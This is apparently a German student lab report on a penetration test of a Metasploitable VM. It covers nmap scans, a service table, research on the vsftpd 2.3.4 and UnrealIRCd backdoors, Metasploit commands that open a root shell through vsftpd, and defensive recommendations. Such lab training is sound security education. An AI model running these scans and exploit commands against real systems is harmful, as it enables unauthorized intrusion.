





# Kompetenz: A1A · Bloom: Beurteilen · Dauer: ~180 Min. · Sozialform: Einzelauftrag

## 1. Netzwerkeinstellungen prüfen & IP-Adressen ermitteln

Um die IP-Adresse der Zielmaschine (Metasploitable) im lokalen Netzwerk zu finden, wurde ein Ping-Sweep über das gesamte Subnetz durchgeführt.

**Befehl:**
```bash
sudo nmap -sn 192.168.216.0/24
```



* **Eigene IP (Kali):** 192.168.216.129
* **Ziel IP (Metasploitable):** 192.168.216.130

## 2. Enumeration & Port-Scanning

### TCP-Scan (Service- & OS-Fingerprinting)
Um detaillierte Informationen über das Betriebssystem und die laufenden Dienste zu erhalten, wurde ein TCP SYN-Scan mit Versionserkennung durchgeführt.

**Befehl:**
```bash
sudo nmap -sS -sV -O 192.168.216.130
```



### UDP-Scan
Zusätzlich wurden die UDP-Ports gescannt, um Dienste wie DNS oder RPC zu finden.

**Befehl:**
```bash
sudo nmap -sU 192.168.216.130
```



### Übersichtstabelle der gefundenen Dienste
Aus den Nmap-Scans ergaben sich folgende offene Ports und Dienste für die Ziel-IP **192.168.216.130**:

| Protokoll | Port | Service | Version / Info |
| :--- | :--- | :--- | :--- |
| TCP | 21 | ftp | vsftpd 2.3.4 |
| TCP | 22 | ssh | OpenSSH 4.7p1 Debian 8ubuntu1 |
| TCP | 23 | telnet | Linux telnetd |
| TCP | 25 | smtp | Postfix smtpd |
| TCP | 53 | domain | ISC BIND 9.4.2 |
| TCP | 80 | http | Apache httpd 2.2.8 ((Ubuntu) DAV/2) |
| TCP | 111 | rpcbind | 2 (RPC #100000) |
| TCP | 139 | netbios-ssn | Samba smbd 3.X - 4.X |
| TCP | 445 | netbios-ssn | Samba smbd 3.X - 4.X |
| TCP | 512 | exec | netkit-rsh rexecd |
| TCP | 513 | login | |
| TCP | 514 | shell | Netkit rshd |
| TCP | 1099 | java-rmi | GNU Classpath grmiregistry |
| TCP | 1524 | bindshell | Metasploitable root shell |
| TCP | 2049 | nfs | 2-4 (RPC #1000003) |
| TCP | 2121 | ftp | ProFTPD 1.3.1 |
| TCP | 3306 | mysql | MySQL 5.0.51a-3ubuntu5 |
| TCP | 5432 | postgresql | PostgreSQL DB 8.3.0 - 8.3.7 |
| TCP | 5900 | vnc | VNC (protocol 3.3) |
| TCP | 6000 | X11 | (access denied) |
| TCP | 6667 | irc | UnrealIRCd |
| TCP | 8009 | ajp13 | Apache Jserv (Protocol v1.3) |
| TCP | 8180 | http | Apache Tomcat/Coyote JSP engine 1.1 |
| UDP | 53 | domain | |
| UDP | 68 | dhcpc | |
| UDP | 69 | tftp | |
| UDP | 111 | rpcbind | |
| UDP | 137 | netbios-ns | |
| UDP | 138 | netbios-dgm | |
| UDP | 2049 | nfs | |

**Betriebssystem:** Linux 2.6.X (2.6.9 - 2.6.33)

## 3. Recherche zu Schwachstellen & Exploits
Basierend auf der Enumeration wurden zwei potenzielle Schwachstellen identifiziert:

### Exploit-Option 1: VSFTPD v2.3.4 Backdoor (Port 21)
* **Beschreibung:** Version 2.3.4 des FTP-Daemons vsftpd enthält eine eingebaute Hintertür. Sendet man bei der Anmeldung ein `:)` im Benutzernamen mit, öffnet der Dienst unautorisiert eine Root-Shell auf Port 6200.
* **Quelle:** [Rapid7 CVE-2011-2523](https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor/)

### Exploit-Option 2: UnrealIRCd 3.2.8.1 Backdoor (Port 6667)
* **Beschreibung:** Der IRC-Server enthielt eine Modifikation im Quellcode, die es Angreifern erlaubt, beliebige Systembefehle (RCE) auszuführen.
* **Quelle:** [NVD CVE-2010-2075](https://nvd.nist.gov/vuln/detail/cve-2010-2075)

## 4. Exploit durchführen
Für die Durchführung wurde die **VSFTPD v2.3.4 Backdoor** gewählt.

**Befehle in msfconsole:**
```bash
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set LHOST 192.168.216.129
set RHOSTS 192.168.216.130
run
```

**Nachweis der Übernahme (Proof of Concept):**
Zuerst muss man die Shell öffnen. Sobald sie geöffnet ist, kann man direkt die Befehle eingeben.
```bash
shell
id
uname -a
ifconfig
```




## 5. Resilienzanalyse (Abwehrmassnahmen)
Um das System gegen diesen und ähnliche Angriffe abzusichern, hätten folgende Massnahmen umgesetzt werden müssen:

* **Einrichten einer Host-basierten Firewall (Default-Deny):** Auf der Zielmaschine sind über 20 TCP- und UDP-Ports öffentlich zugänglich. Durch eine Firewall (wie `ufw` oder `iptables`) sollten alle nicht zwingend benötigten Ports gesperrt werden. Unverschlüsselte Dienste wie Telnet (Port 23) oder FTP (Port 21) sollten komplett deaktiviert und durch SSH (Port 22) ersetzt werden.
* **Striktes Patch-Management:** Die genutzte Software (z.B. vsftpd 2.3.4 von 2011) ist massiv veraltet und enthält bekannte Schwachstellen. Die verwundbaren Versionen müssen durch ein regelmässiges Update-Konzept (z.B. `apt-get update && apt-get upgrade`) aktualisiert werden.
* **Einsatz eines Intrusion Detection / Prevention Systems (IDS/IPS):** Netzwerkangriffe, wie der Backdoor-Versuch auf den FTP-Dienst, wurden nicht erkannt oder blockiert. Ein System wie Snort oder Fail2ban hätte anomale Payloads erkennen und die IP des Angreifers präventiv blockieren können.

## 6. Quellenverzeichnis
* **Nmap Network Scanning:** Official Nmap Project Guide. URL: [https://nmap.org/book/](https://nmap.org/book/)
* **Rapid7 Exploit Database:** VSFTPD v2.3.4 Backdoor. URL: [https://docs.rapid7.com/metasploit/metasploitable-2-exploitability-guide](https://docs.rapid7.com/metasploit/metasploitable-2-exploitability-guide)
* **National Vulnerability Database (NVD):** CVE-2011-2523 Detail. URL: [https://nvd.nist.gov/vuln/detail/CVE-2011-2523](https://nvd.nist.gov/vuln/detail/CVE-2011-2523)